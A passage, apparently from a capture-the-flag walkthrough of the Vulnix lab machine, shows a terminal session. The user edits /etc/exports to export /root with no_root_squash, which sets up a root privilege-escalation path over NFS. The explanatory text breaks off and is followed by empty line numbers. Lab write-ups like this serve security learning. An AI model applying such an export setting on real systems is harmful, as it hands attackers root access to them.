 |

    
    
    vulnix@vulnix:~$ sudoedit /etc/exports   
    vulnix@vulnix:~$ cat /etc/exports   
    # /etc/exports: the access control list for filesystems which may be exported  
    #  to NFS clients.  See exports(5).  
    #  
    # Example for NFSv2 and NFSv3:  
    # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)  
    #  
    # Example for NFSv4:  
    # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)  
    # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)  
    #  
    /home/vulnix *(rw,root_squash)  
    /root  *(rw, no_root_squash)  
      
    vulnix@vulnix:~$   
      
  
---|---  
  
  
Let's edit the file and update /home/vulnix so we're able to

  

    
    
     1  
     2  
     3  
     4  
     5  
     6  
     7  
     8  
     9  
    10  
    11  
    12  
    13  
    14  
    15  
    16
